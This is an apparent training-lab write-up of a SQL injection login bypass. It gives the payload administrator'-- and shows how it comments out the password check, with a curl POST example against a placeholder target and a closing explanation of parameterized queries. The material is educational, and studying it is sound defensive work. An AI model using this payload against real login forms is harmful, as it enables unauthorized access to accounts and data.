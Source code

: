 # SQL injection vulnerability allowing login bypass — Apprentice

**Status:** Solved

---

## Goal

Exploit a SQL injection vulnerability in the login form to bypass authentication and log in as the administrator user without knowing the password.

---

## Steps (simple & complete)

1. **Navigate to the login page**
   - Find the login functionality on the application
   - You'll see username and password fields

2. **Understand the backend query**
   - The login likely uses a query like:
```sql
   SELECT * FROM users WHERE username = 'admin' AND password = 'entered_password'
```
   - If a row is returned, login succeeds

3. **Test for SQL injection**
   - Try entering a single quote in the username field:
```
   Username: admin'
   Password: anything
```
   - If you get an error or unusual behavior, it's vulnerable

4. **Craft the SQL injection payload**
   - We need to:
     - Close the username string with `'`
     - Comment out the password check using `--`
   - Username payload:
```
   administrator'--
```
   - Password: (leave empty or type anything)

5. **Execute the login bypass**
   - Enter in the login form:
```
   Username: administrator'--
   Password: (anything or blank)
```
   - Click "Log in"

6. **How it works**
   - Original query:
```sql
   SELECT * FROM users WHERE username = 'administrator' AND password = 'whatever'
```
   - After injection:
```sql
   SELECT * FROM users WHERE username = 'administrator'--' AND password = 'whatever'
```
   - The `--` comments out the password check
   - Query becomes: check if username 'administrator' exists
   - Returns the admin user row → authentication bypassed!

7. **Verify success**
   - You'll be logged in as the administrator
   - Lab automatically solves once you're authenticated as admin

---

## Example

- Login form injection:
```
Username: administrator'--
Password: password
```

- Or using curl:
```bash
curl -s "https://TARGET/login" \
  -d "username=administrator'--&password=anything" \
  -X POST
```

---

## Why this works

The application builds the SQL query by concatenating user input directly into the query string. By adding `'--` after the username, we close the username string and comment out everything that follows, including the password verification. This is why you should never trust user input and always use parameterized queries or prepared statements. The `--` tells SQL "ignore everything after this point", effectively removing the password check from the authentication logic.

---

s